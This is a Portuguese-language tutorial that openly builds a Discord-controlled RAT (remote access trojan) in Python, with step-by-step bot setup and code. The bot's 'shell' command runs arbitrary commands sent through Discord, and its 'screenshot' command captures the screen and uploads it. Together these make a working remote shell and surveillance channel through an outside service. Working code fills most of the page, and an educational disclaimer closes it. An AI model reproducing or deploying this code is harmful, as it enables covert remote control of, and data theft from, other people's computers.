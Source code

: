 # Criando um bot para o Discord

Um bot do Discord pode ser utilizado como uma ponte para executar comandos no seu computador local, funcionando como uma espécie de RAT. Aqui está um passo a passo como criar um bot no Discord e usá-lo para controle remoto.

## Passo 1 - Criar o bot no Discord

1. Acesse o [Portal de Desenvolvedores do Discord](https://discord.com/developers/applications).
2. Clique em **"New Application"**.
3. Dê um nome à sua aplicação e clique em **Create**.
4. No menu lateral, vá até **Bot** e clique em **Add Bot** > **Yes, do it!**.
5. Agora, você terá acesso ao **Token do Bot**. **Copie este token**, pois ele será usado no código.

> **Importante:** NUNCA compartilhe o token do seu bot! Com ele, qualquer pessoa poderá controlar seu bot, então tome cuidado com quem você o manda.

## Passo 2 - Definir permissões e convidar o bot

1. No menu lateral, vá até **OAuth2 > URL Generator**.
2. Selecione:
   - **Scopes:** bot
   - **Bot Permissions:** Administrator (ou personalize de acordo com as funções que o bot executará)
3. Copie a URL gerada, cole no navegador e adicione o bot ao seu servidor do Discord.

Isso é necessário para que o bot consiga operar de acordo com as restrições do Discord.

## Passo 3 - Estrutura básica do bot

Vamos começar fazendo uma estrutura básica para o bot. Sem funcionalidades específicas no momento, só vamos garantir que ele funciona.

Aqui está a base de um bot que executa comandos no seu computador local. Tente ler e entender o que cada trecho faz.

```py
import discord
from discord.ext import commands
import os
import subprocess

prefix = "!"
token = 'SEU_TOKEN_AQUI'  # Substitua pelo token do seu bot

bot = commands.Bot(command_prefix=prefix, intents=discord.Intents.all(), help_command=None)

@bot.event
async def on_ready():
    print(f'Bot conectado como {bot.user}')

@bot.command(name='shell', help='Executa um comando no terminal')
async def shell(ctx, *, command: str):
    result = subprocess.run(command, shell=True, capture_output=True, text=True)
    output = result.stdout if result.stdout else result.stderr
    await ctx.send(f"```{output}```")

bot.run(token)
```

## Passo 4 - Adicionando mais funcionalidades

Vamos começar a implementar alguns comandos para codar nosso RAT!

### Captura de Tela:

```py
from mss import mss

@bot.command(name='screenshot', help='Tira um screenshot da tela')
async def screenshot(ctx):
    with mss() as sct:
        sct.shot(output='screenshot.png')
    await ctx.send(file=discord.File('screenshot.png'))
    os.remove('screenshot.png')
```

### Controle de Volume:

```py
from ctypes import cast, POINTER
from comtypes import CLSCTX_ALL
from pycaw.pycaw import AudioUtilities, IAudioEndpointVolume

def volumeup():
    devices = AudioUtilities.GetSpeakers()
    interface = devices.Activate(IAudioEndpointVolume._iid_, CLSCTX_ALL, None)
    volume = cast(interface, POINTER(IAudioEndpointVolume))
    volume.SetMasterVolumeLevel(volume.GetVolumeRange()[1], None)

@bot.command(name='volumeup', help='Aumenta o volume do sistema')
async def volume_up(ctx):
    volumeup()
    await ctx.send("Volume aumentado ao máximo.")
```

## Passo 5 - Executando o bot

Salve o script em um arquivo `.py` e execute:

```bash
python seu_bot.py
```

Assim que o bot estiver online, você poderá interagir com ele no canal do Discord do seu servidor.

## Considerações finais

Este bot e tutorial são para fins educacionais e demonstram como é possível controlar um computador local via Discord. Usos maliciosos são ilegais e contra os Termos de Serviço do Discord. Não preciso nem mencionar que vocês são adultos teoricamente responsáveis, preciso?

> **DISCLAIMER:** Utilize este conhecimento de maneira ética e responsável. O uso indevido pode acarretar sérias consequências legais.
